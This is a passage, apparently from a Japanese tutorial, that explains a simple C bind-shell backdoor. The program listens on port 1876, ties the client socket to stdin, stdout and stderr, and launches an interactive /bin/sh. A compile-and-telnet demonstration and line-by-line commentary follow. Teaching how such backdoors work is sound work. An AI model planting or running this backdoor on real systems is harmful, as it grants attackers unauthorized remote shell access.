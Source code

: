   if ((sock = sock_open(port)) == -1)// サーバソケットを設定
    die("socket error"); // error
  if ((client = accept(sock, NULL, NULL)) == -1) //クライアントの接続待ち
    die("accept error"); // error

  dup2(client, STDIN_FILENO);	// 標準入力をクライアントソケットの複製とする
  dup2(client, STDOUT_FILENO);	// 標準出力をクライアントソケットの複製とする
  dup2(client, STDERR_FILENO);	// 標準エラー出力を(以下略)
  return execl("/bin/sh", "sh", "-i", NULL); // shへ化ける
}
-----

　sock_open関数内でサーバのソケット（portは1876）を設定し、accept()でクラ
イアントからの接続を待ちます。ここで接続者が現れると、変数clientへクライ
アントへ繋がるソケットのファイルディスクリプタが入ります。その後のdup2()
では、そのソケットで標準入力（STDIN）、標準出力（STDOUT）、標準エラー出力
（STDERR）を上書きし、最後のexecl()で/bin/shへ化けます。これで、STDIN、S
TDOUT、STDERRがクライアントのソケットとなった状態でshellが起動されるため、
shellはクライアントからの入力をネットワークを介して受け入れ、出力をクラ
イアントに対してネットワークを介して行うようになります。

　ここで登場したsock_open()、die()という2つの関数は後に名前だけ登場します
から、どんな動作するものか程度でいいので頭に入れて置いてください。

　では、実際に動くか試してみましょう。
（上記のソースコードをsimple_rbd.cとします）

-----  実行例
$ gcc simple_rbd.c -o backdoor /* コンパイル */
$ ./backdoor &                 /* バックグラウンドで実行 */
[2] 1593
$ telnet localhost 1876        /* 接続(ポートは1876になっています) */
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
sh-2.05$ id
id
uid=500(pain) gid=500(pain) 所属グループ=500(pain)
sh-2.05$
sh-2.04$
-----

　表示に少し問題がありますが、うまく動いています。試したいことがあれば、
ここでいろいろと試してみるとよいでしょう。入力した「id」が2度表示されてい
るのは、telnetコマンドのローカルエコーモードがONになっているためです。

-----
sh-2.05$ exit
Connection closed by foreign host.
[2]-  Done                    ./backdoor
-----

　と終了しておきます。

